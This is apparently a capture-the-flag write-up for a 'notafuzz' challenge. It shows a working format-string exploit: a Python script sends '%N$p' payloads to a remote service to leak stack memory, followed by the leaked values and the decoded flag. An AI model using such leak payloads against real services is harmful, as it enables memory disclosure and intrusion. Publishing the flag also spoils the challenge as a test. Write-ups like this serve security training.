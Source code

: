 First I opened the program with netcat and tryed it and I was thinking that I can use some vulnerable string like %s %p %x but no luck
Then I tryed to open the binary file with Binary Ninja. I found the main and the input that we give and renamed it to **input** and the for loop iterator to **i**

![img](https://raw.githubusercontent.com/L1ghtDream/cyberedu/master/notafuzz/images/1.png?raw=true)

I found that something special is happening at **i = 3**

![img](https://raw.githubusercontent.com/L1ghtDream/cyberedu/master/notafuzz/images/2.png?raw=true)

But the two ifs are the same I did not found any diferences here in Binary Ninja so I switched to IDA Pro but it could not disassable it.
After that I tryed to use the vulnerable string like %s %p %x at the 3rd iteration and we have an output
Here are the results

```
%p -> 0x1
%x -> 1
```

So I decied to write a code to loop thru all 1000 iterations and see what I get.

```
from pwn import *
from ptrlib import *

def leakAddr(memOffset):
	sock = Socket('34.89.241.255', 30179)
	sock.recvuntil('Do you have the control?')
	sock.sendline('A')
	sock.recvuntil('Do you have the control?')
	sock.sendline('A')
	sock.recvuntil('Do you have the control?\r\n')
	sock.sendline(' | %' + str(memOffset) + '$p | ')
	resp = sock.recvuntil('Do you have the control?')
	sock.close()
	return resp.decode().split(' | ')[3]

for i in range(1000):
	f = open("output.txt", "a")
	f.write(str(i) + " " + leakAddr(i) + "\n")
	f.close
	print(str(i))
```


At iteration **136** I got some values so I stoped the script and copyed them and user the decoder form better-cat to decode it. 

```
136 0x585858587b667463
137 0x5858585836646166
138 0x5858585830343335
139 0x5858585866303831
140 0x5858585863346236
141 0x5858585839346636
142 0x5858585831646164
143 0x5858585861643833
144 0x5858585834646565
145 0x5858585866633734
146 0x5858585839663332
147 0x5858585833363439
148 0x5858585831383435
149 0x5858585835323966
150 0x5858585830663135
151 0x5858585863626435
152 0x5858585830373036
153 0x585858587d
```

**585858587b6674635858585836646166585858583034333558585858663038315858585863346236585858583934663658585858316461645858585861643833585858583464656558585858666337345858585839663332585858583336343958585858313834355858585835323966585858583066313558585858636264355858585830373036585858587d**

And got

**}XXXX6070XXXX5dbcXXXX51f0XXXXf925XXXX5481XXXX9463XXXX23f9XXXX47cfXXXXeed4XXXX38daXXXXdad1XXXX6f49XXXX6b4cXXXX180fXXXX5340XXXXfad6XXXXctf{XXXX**

Still not what I wanted but it on the right way so lets continue. But i quiqly realised that there was a mistake I did not reversed them while copying them so I did that and the new string was

**585858587d5858585830373036585858586362643558585858306631355858585835323966585858583138343558585858333634395858585839663332585858586663373458585858346465655858585861643833585858583164616458585858393466365858585863346236585858586630383158585858303433355858585836646166585858587b667463**

now I got this

**ctf{XXXXfad6XXXX5340XXXX180fXXXX6b4cXXXX6f49XXXXdad1XXXX38daXXXXeed4XXXX47cfXXXX23f9XXXX9463XXXX5481XXXXf925XXXX51f0XXXX5dbcXXXX6070XXXX}XXXX**

I just removed the XXXX I do not know what where those but anyway this is the flag

**ctf{fad65340180f6b4c6f49dad138daeed447cf23f994635481f92551f05dbc6070}**
